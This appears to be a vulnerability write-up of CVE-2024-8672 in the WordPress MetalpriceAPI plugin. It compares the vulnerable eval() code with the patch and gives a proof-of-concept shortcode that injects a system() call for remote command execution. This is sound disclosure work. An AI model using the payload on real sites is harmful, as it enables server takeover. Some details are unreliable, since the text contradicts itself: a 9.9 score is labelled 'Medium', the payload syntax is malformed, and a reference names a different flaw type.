

<!--more-->

## CVE & Basic Info

The Improper Control of Generation of Code ("Code Injection") vulnerability in MetalpriceAPI allows Code Injection to be performed. This issue affects MetalpriceAPI from n/a up to version **1.1.4**.

* **CVE ID**: [CVE-2024-8672](https://www.cve.org/CVERecord?id=CVE-2024-8672)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 1.1.4
* **Patched Versions**: 1.1.5
* **CVSS severity**: Medium (9.9)
* **Required Privilege**: Contributor
* **Product**: [WordPress MetalpriceAPI Plugin](https://wordpress.org/plugins/metalpriceapi/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – MetalpriceAPI**:

  * `1.1.4` – **vulnerable**
  * `1.1.5` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any other diff tool.

## Cause

**In the vulnerable version (v1.1.4):**

```php {title="index.php v1.1.4" data-open=true hl_lines=[4]}
if (isset($attrs['operation'])) {
    $operation = $attrs['operation'];
    $operation = str_replace('(value)', $price, $operation);
    eval('$price = ' . $operation . ';');
}
```

The value of `$attrs['operation']` from the shortcode is directly concatenated into a PHP string and then passed to `eval()`. An attacker can inject arbitrary PHP code ⇒ RCE.

**Patched version (v1.1.5):**

```php {title="index.php v1.1.5" data-open=true hl_lines=[]}
if (isset($attrs['operation'])) {
    $price = $this->safe_math_eval($attrs['operation'], $price);
}
```

Instead of using `eval()`, a custom `safe_math_eval` function is used, completely eliminating the ability to execute system code.

```php {title="index.php v1.1.5" data-open=false hl_lines=[]}
private function safe_math_eval($expression, $value) {
    // Remove any whitespace
    $expression = preg_replace('/\s+/', '', $expression);

    // Only allow basic math operations, numbers, and the value keyword
    if (!preg_match('/^[0-9\.\+\-\*\/\(\)value]+$/', $expression)) {
        return $value;
    }

    // Replace (value) with the actual value
    $expression = str_replace('(value)', $value, $expression);

    // Use a safe evaluation method
    try {
        // Split the expression into tokens
        $tokens = preg_split('/([\+\-\*\/\(\)])/', $expression, -1, PREG_SPLIT_DELIM_CAPTURE | PREG_SPLIT_NO_EMPTY);

        // Convert to Reverse Polish Notation (RPN)
        $output = array();
        $operators = array();

        foreach ($tokens as $token) {
        if (is_numeric($token)) {
            $output[] = $token;
        } elseif ($token === '(') {
            $operators[] = $token;
        } elseif ($token === ')') {
            while (count($operators) > 0 && end($operators) !== '(') {
            $output[] = array_pop($operators);
            }
            if (count($operators) > 0 && end($operators) === '(') {
            array_pop($operators);
            }
        } else {
            $precedence = array(
            '+' => 1,
            '-' => 1,
            '*' => 2,
            '/' => 2
            );

            while (count($operators) > 0 &&
                    end($operators) !== '(' &&
                    $precedence[$token] <= $precedence[end($operators)]) {
            $output[] = array_pop($operators);
            }
            $operators[] = $token;
        }
        }

        while (count($operators) > 0) {
        $output[] = array_pop($operators);
        }

        // Evaluate RPN
        $stack = array();
        foreach ($output as $token) {
        if (is_numeric($token)) {
            array_push($stack, $token);
        } else {
            $b = array_pop($stack);
            $a = array_pop($stack);

            switch ($token) {
            case '+':
                array_push($stack, $a + $b);
                break;
            case '-':
                array_push($stack, $a - $b);
                break;
            case '*':
                array_push($stack, $a * $b);
                break;
            case '/':
                if ($b == 0) {
                return $value; // Division by zero
                }
                array_push($stack, $a / $b);
                break;
            }
        }
        }

        $result = array_pop($stack);
        return is_numeric($result) ? $result : $value;
    } catch (Exception $e) {
        return $value;
    }
}
```

## Analysis

The plugin registers the `metalpriceapi` shortcode with the `shortcode()` callback:

```php
add_shortcode('metalpriceapi', [$this, 'shortcode']);
```

Inside the `shortcode()` function, input parameters are retrieved from the shortcode using `shortcode_atts()`. The plugin then retrieves the saved `api_key` using `get_option()`, constructs the URL, and sends a request to `https://api.metalpriceapi.com` using `wp_remote_get()`.

If an account is registered at `metalpriceapi.com` and the API key is entered in the plugin Settings:



The response will look like:

```json
{"success":true,"base":"USD","timestamp":1764633599,"rates":{"USDXAU":4230.2580203577,"XAU":0.0002363922}}
```

The response body is decoded into an array using `json_decode()`. When the condition
`isset($json['success']) && $json['success'] == true` is satisfied and the shortcode provides the `operation` parameter, the plugin executes:

```php
$operation = $attrs['operation'];
$operation = str_replace('(value)', $price, $operation);
eval('$price = ' . $operation . ';');
```

Here, the user-controlled `operation` value is passed directly into `eval()`, leading to arbitrary PHP code execution. This allows an attacker to inject and execute commands on the server via the `operation` parameter in the shortcode.

## Flow


graph TD
A["Attacker with Contributor (or higher) role"]
--> B["Creates or edits a post/content"]
--> C["Inserts [metalpriceapi operation=payload]"]
--> D["WordPress renders the shortcode"]
--> E["Plugin executes shortcode() function"]
--> F["operation is concatenated into a PHP expression"]
--> G["eval() executes the attacker‑controlled input"]
--> H["Remote Code Execution (RCE) on the server"]


## Proof of Concept (PoC)

1. Create a post using a Contributor account
2. Add the shortcode:

```
[metalpriceapi operation='"abc";system($_REQUEST("cmd"));die()']
```


## Conclusion

CVE-2024-8672 in the WordPress MetalpriceAPI plugin (<= 1.1.4) is a critical RCE vulnerability caused by directly using `eval()` with user-controlled input from the `operation` parameter in the shortcode. With only Contributor privileges, an attacker can inject and execute arbitrary PHP code on the server, leading to system compromise, data leakage, or malware installation. Version 1.1.5 fixed the issue by removing `eval()` and replacing it with a safer expression-handling function.

## Key Takeaways

* Never use `eval()` with user-supplied input, even indirectly.
* WordPress shortcodes, if not properly controlled, can become an entry point for RCE.
* Always validate, sanitize, and strictly restrict allowed characters in input parameters.
* Use a parser or dedicated handler instead of directly executing dynamic expressions.

## References

[Remote Code Execution (RCE)](https://patchstack.com/academy/wordpress/vulnerabilities/remote-code-execution/)

[WordPress MetalpriceAPI Plugin <= 1.1.4 is vulnerable to PHP Object Injection](https://vdp.patchstack.com/database/wordpress/plugin/metalpriceapi/vulnerability/wordpress-metalpriceapi-1-1-4-remote-code-execution-rce-vulnerability)
